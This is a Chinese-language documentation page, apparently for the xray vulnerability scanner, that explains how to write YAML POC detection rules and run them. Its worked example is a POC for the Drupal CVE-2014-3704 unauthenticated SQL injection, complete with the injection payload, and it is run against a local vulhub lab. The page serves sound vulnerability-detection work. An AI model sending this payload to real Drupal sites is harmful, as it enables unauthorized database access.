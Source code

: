 ```yaml
---
title: '快速开始'
description: '在开发者文档中，我们将详细介绍如何编写POC和指纹识别规则'
---
```


我们拿访问example.com并匹配他的title来举例，首先我们需要准备一个POC文件，POC文件是一个yaml文件，包含了请求的信息和匹配的表达式，下面是一个简单的POC文件：

**POC:**
```yaml
name: poc-yaml-example
transport: http
rules:
  r0:
    request:
      method: GET
      path: /
    expression: response.status == 200 && response.title.bcontains(b"Example Domain")
expression: r0()
detail:
  author: test
  links:
    - https://example.com
```
## 如何使用 POC

将上述POC保存为example.yml，假定与xray可执行文件存放于同一目录下，可执行如下命令：

```shell
./xray ws --poc example.yml --url http://127.0.0.1:8080
```
![](../assets/poc/hit.png)

## 如何调试 POC

如果 poc 无法扫出期望的结果，可以按照以下思路调试

- 确定 poc 语法正确，payload 正确。
- 在配置文件 `http` 段中加入 `proxy: "http://proxy:port"`，比如设置 burpsuite 为代理，这样 poc 发送的请求可以在 burp 中看到，看是否是期望的样子。

[//]: # (TODO：添加Burp发包截图)

## 实际案例

使用CVE-2014-3704进行举例，这是一个Drupal的未授权sql注入漏洞，靶场参考[vulhub/drupal/CVE-2014-3704](https://github.com/vulhub/vulhub/blob/master/drupal/CVE-2014-3704)

**POC:**
```yaml
name: poc-yaml-drupal-cve-2014-3704-sqli
transport: http
set:
  rand: randomInt(200000000, 210000000)
rules:
  r0:
    request:
      method: POST
      path: /?q=node&destination=node
      headers:
        Content-Type: application/x-www-form-urlencoded
      body: pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,(select md5({{rand}}))),0)%23]=bob&name[0]=a
    expression: >-
      response.status == 500 &&
      response.body.bcontains(bytes(substr(md5(string(rand)), 0, 31)))
expression: r0()
detail:
  author: test
  links:
    - https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2014-3704
```
将上述POC保存为drupal-cve-2014-3704-sqli.yml，假定与xray可执行文件存放于同一目录下，可执行如下命令：

```shell
./xray ws --poc drupal-cve-2014-3704-sqli.yml --url http://127.0.0.1:8080
```
即可检测出漏洞
